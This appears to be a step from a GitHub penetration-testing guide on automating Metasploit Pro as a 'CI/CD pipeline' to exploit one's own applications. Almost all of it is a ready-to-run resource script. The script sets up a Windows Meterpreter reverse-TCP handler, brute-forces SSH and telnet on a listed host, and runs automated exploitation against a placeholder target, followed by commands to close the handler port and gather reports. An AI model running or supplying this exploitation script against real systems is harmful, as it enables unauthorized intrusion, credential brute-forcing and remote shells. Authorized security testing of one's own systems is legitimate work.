 #

# 10. Create the Metasploit Pipeline CI/CD for make a PoC with the vulnerabilities that have your Applications

(Maximum 27 task in parallel each 8 hours)

    aptitude install neofetch
 
    cd /root
    nano /root/SA/sk/SAE.rc
 
    pro_user root
    workspace sk
    workspace
    spool /root/SA/sk/r7nmapScan_spool
    setg ExitOnSession false
    setg VERBOSE true
    <ruby>
    run_single("set RHOSTS #{framework.db.hosts.map(&:address).join(' ')}")
    </ruby>
    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST 10.0.0.4
    setg target 0
    version
    neofetch
    save
    banner
    pro_bruteforce deep -K -I -b 192.168.0.22 -s ssh,telnet -j -z -vvv -ddd
    pro_exploit yourtarget.com -ea 3 -et 3 -l 10.0.0.4 -m auto -r great -b yourblacklist.com -j -z -vvv -ddd
    run -j -z -vvv -ddd

#

    msfpro

#

    resource /root/SA/sk/SAE.rc

#

#

#

Close Multi Handler Port Conenction for rexploit

    lsof -i :6865
    kill -9 PID

For monitoring, collect and reports in Metasploit Pro

    pro_tasks
    pro_collect
    pro_report
